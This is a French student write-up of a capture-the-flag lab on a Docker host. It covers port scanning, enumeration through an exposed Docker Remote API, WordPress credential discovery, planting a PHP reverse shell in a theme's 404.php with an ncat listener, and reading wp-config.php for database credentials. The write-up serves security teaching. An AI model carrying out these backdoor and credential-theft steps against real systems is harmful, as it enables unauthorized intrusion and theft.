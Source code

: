 # Writeup: Docker Pivoting and Exploitation

## Informations générales

| **Nom**    | Lambert         |
|------------|-----------------|
| **Prénom** | Lenny           |
| **Groupe** | Y1              |

| **Thème**              | **Difficulté** |
|-------------------------|----------------|
| Port scanning          | Easy 🟢     |
| Webapp attacks         | Hard 🔴     |
| Code injection         |                |
| Pivoting (Docker)      |                |
| Exploitation           |                |
| Password cracking      |                |
| Brute forcing          |                |

---

## Outils utilisés

- [Netdiscover](https://www.kali.org/tools/netdiscover/)
- [Nmap](https://www.kali.org/tools/nmap/)
- [Dirb](https://www.kali.org/tools/dirb/)
- [Ncat (Nmap)](https://www.kali.org/tools/nmap/#ncat)
- [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

---

## Etape 1 : Net Discover

**Objectif :** Récupérer l’adresse IP de la machine cible.

Commande :
```bash
netdiscover
```

**Exemple de résultat :**
![Netdiscover output](https://prod-files-secure.s3.us-west-2.amazonaws.com/27893aab-88a5-49bc-8330-c8ebab37838a/cc68ba38-56b5-4821-8104-5d96395a959d/image.png)

---

## Etape 2 : Scan de port avec Nmap

**Objectif :** Identifier les ports ouverts et les services actifs sur la cible.

Commande :
```bash
sudo nmap -sV -sC -O -T5 -p- -oN discover.txt 192.168.56.104
```

| **Option**  | **Description**                             |
|-------------|---------------------------------------------|
| `-sV`       | Détecte les versions des services          |
| `-sC`       | Utilise les scripts NSE                     |
| `-O`        | Détecte le système d’exploitation           |
| `-p-`       | Scanne tous les ports                       |
| `-oN`       | Sauvegarde les résultats dans un fichier     |

**Exemple de résultat :**

| **Port** | **Service** | **Description**           | **Status** | **Détails**                  |
|----------|-------------|---------------------------|------------|------------------------------|
| 22       | SSH         | OpenSSH                  | Open       |                              |
| 8000     | HTTP        | Apache httpd             | Open       | Service WordPress            |
| 2375     | Docker API  | Docker Remote API        | Open       | API pour gérer Docker à distance |

**Analyse : Port 2375 (Docker Remote API)**

| **Aspect**        | **Détails**                                                                 |
|--------------------|----------------------------------------------------------------------------|
| **Rôle**           | Contrôler le daemon Docker à distance                                    |
| **Protocole**      | TCP                                                                      |
| **Risque**         | Permet à un attaquant d'exécuter des commandes Docker sur l'hôte compromis |

---

## Etape 3 : Docker Recon

### Liste des images Docker disponibles

Commande :
```bash
docker -H tcp://192.168.56.104:2375 image ls
```

| **Repository**                | **Tag**   | **Image ID** | **Commentaires**                                   |
|--------------------------------|-----------|--------------|--------------------------------------------------|
| wordpress                     | latest    | c4260b289fc7 | Héberge un service WordPress                   |
| mysql                         | 5.7       | c73c7527c03a |                                                  |
| jeroenpeeters/docker-ssh      | latest    | 7d3ecb48134e | Serveur SSH pour conteneurs (source DockerHub)  |

### Liste des conteneurs actifs

Commande :
```bash
docker -H tcp://192.168.56.104:2375 ps -a
```

| **Container ID**  | **Image**                | **Ports**               | **Nom**               |
|--------------------|--------------------------|-------------------------|-----------------------|
| 8f4bca8ef241      | wordpress:latest         | 0.0.0.0:8000->80/tcp    | content_wordpress_1   |
| 13f0a3bb2706      | mysql:5.7                | 3306/tcp                | content_db_1          |
| b90babce1037      | jeroenpeeters/docker-ssh | 22/tcp, 8022/tcp        | content_ssh_1         |

### Analyse du réseau Docker

Commande :
```bash
docker -H tcp://192.168.56.104:2375 network inspect content_default
```

| **Nom**           | **Adresse IPv4** |
|--------------------|------------------|
| content_db_1      | 172.18.0.2/16    |
| content_wordpress_1 | 172.18.0.3/16    |
| content_ssh_1     | 172.18.0.4/16    |

---

## Etape 4 : Scan WordPress avec Wpscan

**Objectif :** Identifier les utilisateurs et plugins vulnérables.

Commande :
```bash
wpscan --url http://192.168.56.104:8000 -e u,p
```

| **Utilisateur trouvé** | **Mot de passe** |
|--------------------------|------------------|
| bob                      | Welcom1          |

**Connexion au tableau de bord WordPress :** http://192.168.56.104:8000/wp-admin

Flag : `flag_1{2aa11783d05b6a329ffc4d2a1ce037f46162253e55d53764a6a7e998}`

---

## Etape 5 : Injection d'une backdoor dans WordPress

**Objectif :** Obtenir un shell distant sur l'hôte via un fichier PHP malveillant.

### Procédure
1. Modifier le fichier `404.php` via WordPress (Appearance > Editor > 404 Template).
2. Insérer un script de reverse shell PHP.
3. Déployer et accéder à : `http://192.168.56.104:8000/wp-content/themes/twentyseventeen/404.php`

Commande pour écouter le reverse shell :
```bash
ncat -lvnp 4444
```

**Shell obtenu :** Compte `www-data`

---

## Analyse et exploitation Docker

Depuis le shell, accéder à `/var/www/html/wp-config.php` pour récupérer les identifiants MySQL.

---

## Diagramme de fonctionnement

![Docker Workflow](https://prod-files-secure.s3.us-west-2.amazonaws.com/27893aab-88a5-49bc-8330-c8ebab37838a/174c0cac-e9aa-41c5-a6cf-2ddc46451384/image.png)

---
